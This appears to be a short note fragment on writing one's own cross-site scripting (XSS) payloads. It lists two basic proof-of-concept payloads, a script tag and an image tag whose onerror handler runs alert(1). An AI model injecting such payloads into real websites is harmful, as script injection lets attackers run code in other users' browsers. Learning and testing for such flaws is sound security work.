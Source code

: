 1. How you can write own xss scripts?
    
    1. <script>alert(1)</script>
    2. <img src="hello.jpg" onerror="alert(1)"/>
